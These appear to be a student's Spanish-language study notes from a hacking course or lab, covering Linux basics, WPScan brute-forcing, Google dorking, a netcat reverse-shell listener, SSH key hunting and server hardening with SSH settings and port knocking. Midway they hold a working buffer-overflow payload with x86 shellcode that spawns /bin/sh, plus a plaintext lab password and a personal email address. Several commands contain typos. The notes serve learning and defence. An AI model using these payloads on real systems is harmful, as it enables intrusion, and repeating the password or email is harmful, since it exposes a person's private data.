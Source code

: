 buscar en man on "/keyword", ir adelante on N y hacia atras con SUPR-N
chown cambia proprietario de un fichero

## VIM
:wq write qui
:q! quit and force

## XARGAS
ejecuta algo como argumento final un output

## ALIAS
alias loqueyoquiera="ls"    cerrando la sessión pierdes el alias
para hacerlo fijo meter en /.bashrc el alias


## WPscan
utilzado para sacar información sobre los usuarios que se utilizan en la pagina basada en wordpress
también se usa como brute-force para paginas web basadas en wordpress

## Google dorking
buscador más profundo de información
site: sitio "keywoards"

## Netcad
Utilizado para abrir puertos en la maquina a utilizar como reverse shell
netcad -nvlp "puerto puesto" https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


## SSH
es posible utilizar la llave RSA para poder entrar con ssh utilizando el flag -i

buscar en un directorio llaves RSA existentes y utilizables:
find. -type f- -exec sh -c 'echo "Analizando archivo: $1"; ssh-keygen -l -f $1' _ {} \;


contraseña maquina wido T4ll3r_H4ck1nG_2024!
correo para el premio: sermomo3@alumni.uv.es

run $(python2 -c 'print "A"*88')


run $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')


/home/wido/pruebas_seguridad/script $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')


## HARDENING
Asegurar servidores y servicios.

FIREWALL
iptables -L -nv (muestra las reglas)
preservar logs de las posibles conexiones
LAMP(Linux Apache MySQL PHP) para servidor web
VESTA
Nestia es un gestor instalable open source para gestionar el servidor

Security SSH
Cambio de puerto sobre el 1000
Bloquear acceso de root utilizando SSH (permitrootlogin no)
Autenticazión de password (password authentication)
Archivo de config de ssh /etc/ssh/sshd_config

PORT KNOCKING
Configuras firewalls que te permite conectar a diferentes puertos para luego conseguir abilitar la regla de abertura de SSH. En pocas palabras, tocas ciertos puertos configurados en el dispositivo y así puedes abrir y cerrar puertos.
knockd es el servicio utilizable(/etc/knockd.conf y /etc/default/knockd)
START_KNCOKD =1 para abilitar el knocking
KNOCKD_OPTS="-i eth0" para cambiar la interfaz a utilizar y luego abilitar con systemctl start knockd
knock -d 300 10.5.0.10(IP) 2024 2000 9898 para nockear y luego hacer ssh
y para cerrar knock -d 300 %IP% 9898 2000 2024

OSSEC(HIDS)



